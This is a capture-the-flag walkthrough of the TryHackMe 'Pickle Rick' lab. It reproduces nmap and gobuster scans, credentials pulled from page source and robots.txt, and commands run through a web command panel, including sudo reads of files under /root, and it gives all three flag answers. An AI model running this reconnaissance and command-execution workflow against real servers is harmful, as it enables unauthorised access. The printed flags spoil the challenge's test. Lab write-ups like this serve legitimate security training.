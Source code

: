 <!-- TOC -->

- [Pickle Rick](#pickle-rick)
    - [Discovery and Scanning](#discovery-and-scanning)
    - [Exploitation](#exploitation)

<!-- /TOC -->

# Pickle Rick

[Pickle Rick Room](https://tryhackme.com/room/picklerick)

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

| Title | IP Address |
| :---- | :---- |
| Pickle Rick | 10.10.136.127 |

## Discovery and Scanning

```bash
sudo nmap -A -vv -T4 -oA initial 10.10.136.127
```

Result: [initial.nmap](initial.nmap)

> `80/tcp open http syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))`

View Page Source: `http://10.10.136.127`

> `Username: R1ckRul3s`

```bash
gobuster dir -u 10.10.136.127:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,cer,css,htm,html,js,jsp,php,py,xhtml -t 100
```

> ```
> /index.html           (Status: 200) [Size: 1062]
> /login.php            (Status: 200) [Size: 882]
> /robots.txt           (Status: 200) [Size: 17]
> /assets               (Status: 301) [Size: 315] [--> http://10.10.136.127/assets/]
> /portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
> /denied.php           (Status: 302) [Size: 0] [--> /login.php]
> /clue.txt             (Status: 200) [Size: 54]                    
> /server-status        (Status: 403) [Size: 301]   
> ```

`http://10.10.136.127/robots.txt`

> `Wubbalubbadubdub`

`http://10.10.136.127/clue.txt`

> `Look around the file system for the other ingredient.`

## Exploitation

Using `R1ckRul3s:Wubbalubbadubdub`

`http://10.10.136.127/login.php`

View Page Source: `http://10.10.136.127/portal.php#`

> `<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->`

Decoded 7 times with `base64` -> `rabbit hole`

Using the Command Panel:

```bash
sudo -l
```

> `(ALL) NOPASSWD: ALL`

```bash
ls -la
```

> `-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt`

`http://10.10.136.127/Sup3rS3cretPickl3Ingred.txt`

> `mr. meeseek hair`

```bash
ls -la /home/rick
```

> `-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients`

```bash
base64 "/home/rick/second ingredients" | base64 -d
```

> `1 jerry tear`

```bash
sudo ls -la /root
```

> `-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt`

```bash
sudo base64 "/root/3rd.txt" | base64 -d
```

> `3rd ingredients: fleeb juice`
